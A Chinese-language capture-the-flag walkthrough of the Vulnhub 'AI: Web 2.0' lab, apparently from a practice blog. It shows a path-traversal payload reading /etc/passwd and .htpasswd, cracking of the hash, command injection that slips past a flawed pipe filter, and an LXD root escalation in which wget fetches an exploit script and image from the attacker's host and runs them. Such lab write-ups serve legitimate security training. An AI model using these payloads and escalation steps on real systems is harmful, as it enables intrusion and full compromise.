


# AI Web 2.0 Vulunhub靶场复现-重走来时路4

## 靶场介绍

靶场地址 https://www.vulnhub.com/entry/ai-web-2%2C357/

作者留下的话

Difficulty: Intermediate
Network: DHCP (Automatically assign)
Network Mode: NAT

This is the second box from the series AI: Web and you will have more fun to crack this challenge. The goal is simple. Get flag from /root/flag.txt. Enumerate the box, get low privileged shell and then escalate privilege to root.

You may need to crack password. Use wordlist SecLists/rockyou-45.txt by Mr. Daniel Miessler.

For any hint please tweet on @arif_xpress

## 信息收集

### 主机发现

```shell
sudo nmap -sn 10.10.10.0/24
```

获取靶机ip为 10.10.10.134

### 端口扫描

```shell
┌──(kali㉿kali)-[~/Labs/Vulnhub/AiWeb2]
└─$ sudo nmap -sS -sV -O -p- -sC --min-rate 5000 10.10.10.134 -oN nmapscan/portscan.txt

Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-06 20:03 -0400
Nmap scan report for 10.10.10.134
Host is up (0.00061s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 95:51:c1:2e:6f:d8:03:e5:3e:e3:ca:d2:fa:d7:d4:e1 (RSA)
|   256 b9:8c:01:fd:12:f6:81:45:13:c3:80:23:26:74:39:4e (ECDSA)
|_  256 c1:6c:7e:ed:9d:7d:1b:b3:a9:cb:64:0f:04:d2:27:1a (ED25519)
80/tcp open  http    Apache httpd
|_http-title: File Manager (Credit: XuezhuLi)
|_http-server-header: Apache
MAC Address: 00:0C:29:68:94:46 (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.14
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.98 seconds
```

| 端口   | 服务 | 版本                            | 分析                                                                                            |
| ------ | ---- | ------------------------------- | ----------------------------------------------------------------------------------------------- |
| 22/tcp | SSH  | OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 | 标准 SSH，版本不算特别老，暴力破解效率低，暂不作为优先入口。留作后续拿到凭据后的横向/登入通道。 |
| 80/tcp | HTTP | Apache httpd                    | 唯一攻击面。标题为 "File Manager (Credit: XuezhuLi)"，说明这是一个文件管理器 Web 应用。         |

### 漏洞探测

```shell
sudo nmap --script=vuln -p22,80 10.10.10.134 -oN nmapscan/vuln.txt
```

输出过长，这里我直接总结

- 22/SSH：无漏洞脚本命中，版本 OpenSSH 7.6p1 较老但无明显 NSE 漏洞。

- 80/HTTP：

  - 发现 **CSRF** 提示（/、/index.php、/signup.php 有表单），但 CSRF 通常不是直接 RCE 入口。

  - /webadmin/ 目录存在且返回 401 Unauthorized** ——这是一个受保护的后台，值得重点突破。

  - XSS 扫描未命中。

### 目录爆破

```shell
sudo gobuster dir -u 10.10.10.134 -w /usr/share/wordlists/dirb/common.txt
```

得到以下

.hta (Status: 403) [Size: 199]
.htpasswd (Status: 403) [Size: 199]
.htaccess (Status: 403) [Size: 199]
css (Status: 301) [Size: 232] [--> http://10.10.10.134/css/]
index.php (Status: 200) [Size: 678]
server-status (Status: 403) [Size: 199]
srv (Status: 301) [Size: 232] [--> http://10.10.10.134/srv/]
webadmin (Status: 401) [Size: 381]

## 寻找漏洞和利用

访问80端口只有一个Username的表单 分别有 登陆 和 注册两个按钮 这里我输入root 和admin 回显 不合法的用户名

用 Ke1th 注册了一个用户登陆进去，来到 10.10.10.134/userpage.php



根据搜索引擎对 Welcome to XuezhuLi FileSharing 这是一个github开源项目 地址为 https://github.com/XuezhuLi/FileSharing

查看这个网页的源码发现注释

```HTML
<!--	<div class="upload">
		<form enctype="multipart/form-data" action="/userpage.php" method="POST">
			<input type="hidden" name="MAX_FILE_SIZE" value="1000000000" />
			<label for="uploadfile_input">Choose a file to upload:&nbsp;&nbsp;</label><input name="uploadedfile" type="file" id="uploadfile_input"/>
			<button type="submit" class = "button">Upload File</button>
			<span class="error"></span>
		</form>
	</div>
-->
```

上传功能被注释掉了

想到之前爆出来个路径，访问一下



还是卡住了,发现我们没有找到立足点，既然这是开源项目，去漏洞库找找可能性

### 寻找漏洞库

```shell
┌──(kali㉿kali)-[~/Labs/Vulnhub/AiWeb2]
└─$ searchsploit XuezhuLi FileSharing
```

| 漏洞                    | 路径                     |
| :---------------------- | :----------------------- |
| **CSRF (Add User)**     | `php/webapps/40010.html` |
| **Directory Traversal** | `php/webapps/40009.txt`  |

第1个漏洞是CSRF，危害不大，也不好利用，第2个是文件遍历，这个可以读取一些文件。

接着

```shell
searchsploit -x 40009
```

### 漏洞利用

读取这个 nday 漏洞exp具体内容

```markdown
Vulnerability 1 - download.php
GET /vul_test/FileSharing/download.php?file_name=../../../../../../../../../../../../../etc/passwd HTTP/1.1
```

这里我们直接把/download.php?file_name=../../../../../../../../../../../../../etc/passwd放到ip地址后面访问，也可以使用burpsuit抓包

下载并读取到了/etc/passwd文件内容如下

```shell
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
aiweb2:x:1000:1000::/home/aiweb2:/bin/bash
n0nr00tuser:x:1001:1001::/home/n0nr00tuser:/bin/bash
```

接着之前信息收集得到这是Apache系统，下载并读取读取到了 Apache 的虚拟主机配置文件看看

‘http://10.10.10.134/download.php?file_name=../../../../../../../../../etc/apache2/sites-enabled/000-default.conf’

```text
<VirtualHost *:80>
	# The ServerName directive sets the request scheme, hostname and port that
	# the server uses to identify itself. This is used when creating
	# redirection URLs. In the context of virtual hosts, the ServerName
	# specifies what hostname must appear in the request's Host: header to
	# match this virtual host. For the default virtual host (this file) this
	# value is not decisive as it is used as a last resort host regardless.
	# However, you must set it for any further virtual host explicitly.
	#ServerName www.example.com

	ServerAdmin webmaster@localhost
	DocumentRoot /var/www/html

	# Available loglevels: trace8, ..., trace1, debug, info, notice, warn,
	# error, crit, alert, emerg.
	# It is also possible to configure the loglevel for particular
	# modules, e.g.
	#LogLevel info ssl:warn

	ErrorLog ${APACHE_LOG_DIR}/error.log
	CustomLog ${APACHE_LOG_DIR}/access.log combined

	# For most configuration files from conf-available/, which are
	# enabled or disabled at a global level, it is possible to
	# include a line for only one particular virtual host. For example the
	# following line enables the CGI configuration for this host only
	# after it has been globally disabled with "a2disconf".
	#Include conf-available/serve-cgi-bin.conf

	<Directory "/var/www/html/webadmin">
		AuthType Basic
		AuthName "Restricted Content"
		AuthUserFile /etc/apache2/.htpasswd
		Require valid-user
	</Directory>

</VirtualHost>

# vim: syntax=apache ts=4 sw=4 sts=4 sr noet
```

`.htpasswd` 文件就在 `/etc/apache2/.htpasswd`

构造payload为/download.php?file_name=../../../../../../../../../../../../../etc/apache2/.htpasswd

```text
aiweb2admin:$apr1$VXqmVvDD$otU1gx4nwCgsAOA7Wi.aU/
```

### john爆破

前面的靶场介绍已经留下了线索，用这个词典SecLists/rockyou-45.txt

```shell
┌──(kali㉿kali)-[~/Labs/Vulnhub/AiWeb2]
└─$ echo 'aiweb2admin:$apr1$VXqmVvDD$otU1gx4nwCgsAOA7Wi.aU/' > hash.txt
┌──(kali㉿kali)-[~/Labs/Vulnhub/AiWeb2]
└─$  find /usr/share/seclists -name "*rockyou*" 2>/dev/null
/usr/share/seclists/Passwords/Leaked-Databases/rockyou-50.txt
/usr/share/seclists/Passwords/Leaked-Databases/rockyou-withcount.txt.tar.gz
/usr/share/seclists/Passwords/Leaked-Databases/rockyou-10.txt
/usr/share/seclists/Passwords/Leaked-Databases/rockyou-15.txt
/usr/share/seclists/Passwords/Leaked-Databases/rockyou-60.txt
/usr/share/seclists/Passwords/Leaked-Databases/rockyou-05.txt
/usr/share/seclists/Passwords/Leaked-Databases/rockyou-40.txt
/usr/share/seclists/Passwords/Leaked-Databases/rockyou-35.txt
/usr/share/seclists/Passwords/Leaked-Databases/rockyou-25.txt
/usr/share/seclists/Passwords/Leaked-Databases/rockyou-65.txt
/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt.tar.gz
/usr/share/seclists/Passwords/Leaked-Databases/rockyou-20.txt
/usr/share/seclists/Passwords/Leaked-Databases/rockyou-75.txt
/usr/share/seclists/Passwords/Leaked-Databases/rockyou-30.txt
/usr/share/seclists/Passwords/Leaked-Databases/rockyou-45.txt
/usr/share/seclists/Passwords/Leaked-Databases/rockyou-55.txt
/usr/share/seclists/Passwords/Leaked-Databases/rockyou-70.txt
┌──(kali㉿kali)-[~/Labs/Vulnhub/AiWeb2]
└─$ john --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou-45.txt hash.txt
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 512/512 AVX512BW 16x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
c.ronaldo        (aiweb2admin)
1g 0:00:00:00 DONE (2026-08-06 23:02) 25.00g/s 153600p/s 153600c/s 153600C/s babyphat1..bitchs
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

- 用户名：aiweb2admin
- 密码：c.ronaldo

### 账号登陆

回到这里/webadmin 用刚刚爆破的账号和密码

然后页面显示 I disallowed some contents from robots.很明显这里提示当前目录存在robots.txt，访问以下

```text
User-agent: *
Disallow:
Disallow: /H05Tpin9555/
Disallow: /S0mextras/
```

ok，我们挨个访问

webadmin/H05Tpin9555/ 有一个一个 **Ping IP address** 的表单，典型的命令注入测试点

/webadmin/S0mextras/ — 可能有敏感文件或提示，不能直接目录爆破

### 利用命令执行漏洞

/H05Tpin9555/这里 验证一下命令注入

127.0.0.1| ls-->
index.php
style-main.css

127.0.0.1| pwd-->/var/www/html/webadmin/H05Tpin9555

127.0.0.1|cat index.php
这里暴露的源码如下

```php
$substitutions = array(
    '&&' => '',
    ';'  => '',
    '| ' => '',    // 注意：这里是 "| "（管道符+空格），不是 "|"
    '-'  => '',
    '$'  => '',
    '('  => '',
    ')'  => '',
    '`'  => '',
    '||' => '',
);
```

关键漏洞：过滤的是 | （管道符+空格），不是 |（纯管道符）

### 存在隐藏文件

/S0mextras/这里的提示我们找找这个目录下的文件，或许可以通过这个表单做尝试

```bash
find./S0mextras
```

得到

../S0mextras/.sshUserCred55512.txt
../S0mextras/index.html

直接访问/webadmin/S0mextras/.sshUserCred55512.txt

得到

User: n0nr00tuser
Cred: zxowieoi4sdsadpEClDws1sf

## SSH登陆

```shell
┌──(kali㉿kali)-[~/Labs/Vulnhub/AiWeb2]
└─$ ssh n0nr00tuser@10.10.10.134
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
n0nr00tuser@10.10.10.134's password:

Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Aug  7 03:53:36 UTC 2026

  System load:  0.08              Processes:            171
  Usage of /:   89.7% of 3.87GB   Users logged in:      0
  Memory usage: 16%               IP address for ens32: 10.10.10.134
  Swap usage:   0%

  => / is using 89.7% of 3.87GB

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

92 packages can be updated.
0 updates are security updates.


*** System restart required ***
Last login: Sun Sep  1 05:35:18 2019 from 192.168.187.1
n0nr00tuser@aiweb2host:~$
```

## 权限提升

先做一下必要的信息收集

```shell
n0nr00tuser@aiweb2host:~$ id
uid=1001(n0nr00tuser) gid=1001(n0nr00tuser) groups=1001(n0nr00tuser),108(lxd)
n0nr00tuser@aiweb2host:~$ whoami
n0nr00tuser
n0nr00tuser@aiweb2host:~$ pwd
/home/n0nr00tuser
n0nr00tuser@aiweb2host:~$ uname -a
Linux aiweb2host 4.15.0-58-generic #64-Ubuntu SMP Tue Aug 6 11:12:41 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
n0nr00tuser@aiweb2host:~$ cat /etc/os-release
NAME="Ubuntu"
VERSION="18.04.3 LTS (Bionic Beaver)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 18.04.3 LTS"
VERSION_ID="18.04"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
VERSION_CODENAME=bionic
UBUNTU_CODENAME=bionic
n0nr00tuser@aiweb2host:~$
```

可以看到lxd组，同时我已经验证做sudo 和suid 提权的失败，这可能是我第一次需要lxd提权的

先对lxd简要了解一下

LXD 是 Linux 容器管理工具。如果用户在 `lxd` 组，可以利用 LXD 创建特权容器，挂载宿主机的根目录，从而获取 root 权限

### 提权向量：LXD 容器逃逸

LXD 是 Linux 容器管理工具。如果用户在 lxd 组，可以利用 LXD 创建特权容器，挂载宿主机根目录，从而获取 root 权限

检查lxd状态

```shell
n0nr00tuser@aiweb2host:~$ lxc --version
3.0.3
n0nr00tuser@aiweb2host:~$ lxc image list
+-------+-------------+--------+-------------+------+------+-------------+
| ALIAS | FINGERPRINT | PUBLIC | DESCRIPTION | ARCH | SIZE | UPLOAD DATE |
+-------+-------------+--------+-------------+------+------+-------------+
n0nr00tuser@aiweb2host:~$ lxc list
+------------+---------+------+------+------------+-----------+
|    NAME    |  STATE  | IPV4 | IPV6 |    TYPE    | SNAPSHOTS |
+------------+---------+------+------+------------+-----------+
| UbuntuMini | STOPPED |      |      | PERSISTENT | 0         |
+------------+---------+------+------+------------+-----------+

```

## Root 权限获取

虽然LXD 提权本质不是 exploit-db 漏洞，而是错误权限配置 + LXD设计特性，但是在kali上，任可以继续利用漏洞库寻找有关lxd提权的脚本

```shell
searchsploit lxd
```

Ubuntu 18.04 - 'lxd' Privilege Escalation | linux/local/46978.sh

然后

```shell
┌──(kali㉿kali)-[~/Labs/Vulnhub/AiWeb2]
└─$ cp /usr/share/exploitdb/exploits/linux/local/46978.sh ~/Labs/Vulnhub/AiWeb2

┌──(kali㉿kali)-[~/Labs/Vulnhub/AiWeb2]
└─$ ls
46978.sh  hash.txt  nmapscan  reports

┌──(kali㉿kali)-[~/Labs/Vulnhub/AiWeb2]
└─$ python3 -m http.server 8000
```

漏了关键东西

我们需要镜像

```shell
wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
```

```shell
┌──(kali㉿kali)-[~/Labs/Vulnhub/AiWeb2]
└─$ ls
46978.sh  build-alpine  hash.txt  nmapscan  reports
┌──(kali㉿kali)-[~/Labs/Vulnhub/AiWeb2]
└─$ sudo bash build-alpine
```

在靶机上

```shell
cd /tmp
wget http://10.10.10.10:8000/46978.sh
wget http://10.10.10.10:8000/alpine-v3.24-x86_64-20260807_0114.tar.gz
chmod +x 46978.sh
bash 46978.sh -f alpine-v3.24-x86_64-20260807_0114.tar.gz
```

接着发现，我们已经是Root了

## 寻找flag

```shell
~ # find / -name flag*
/mnt/root/root/flag.txt
~ # cat /mnt/root/root/flag.txt
####################################################
#                                                  #
#                 AI: WEB 2.0                      #
#                                                  #
#               Congratulation!!!                  #
#                                                  #
#             Hope you enjoyed this.               #
#                                                  #
#  flag{7fe64512ecd4dba377b50627f307d1678b14132f}  #
#                                                  #
#         Please tweet on @arif_xpress             #
#                                                  #
####################################################
```
